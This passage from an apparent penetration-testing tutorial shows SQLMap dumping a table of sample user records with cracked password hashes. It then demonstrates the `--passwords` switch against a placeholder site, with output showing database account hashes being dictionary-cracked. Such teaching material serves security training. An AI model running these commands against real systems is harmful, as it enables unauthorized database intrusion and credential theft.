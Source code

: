 ```shell
| 7  | 5503989023993848 | Dean Harper       | [email protected]       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | [email protected]      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |

```

We can see in the previous example that SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.

* * *

## DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

```shell
sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'
```
